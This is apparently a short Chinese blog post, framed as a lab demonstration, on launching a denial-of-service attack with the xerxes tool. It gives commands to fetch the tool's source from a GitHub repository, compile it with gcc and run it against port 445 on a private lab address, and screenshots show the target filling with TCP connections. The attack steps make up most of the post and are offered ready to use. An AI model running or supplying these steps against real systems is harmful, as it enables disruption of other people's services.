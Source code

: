 ```yaml
---
layout:     post
title:      用xerxes发起dos攻击
author:     wooy0ung
tags: 		dos
category:  	exploit
---
```



### 0x00 xerxes

下载xerxes

```
$ sudo svn checkout https://github.com/wooy0ung/pentest/trunk/xerxes
```

编译

```
$ cd xerxes
$ gcc xerxes.c -o xerxes
```
<!-- more -->

扫描目标端口

![](/assets/img/exploit/2017-06-22-xerxes/0x00.png)

攻击445端口

```
./xerxes 10.211.55.5 445
```

![](/assets/img/exploit/2017-06-22-xerxes/0x01.png)

目标机器建立了大量tcp连接，消耗资源

![](/assets/img/exploit/2017-06-22-xerxes/0x02.png)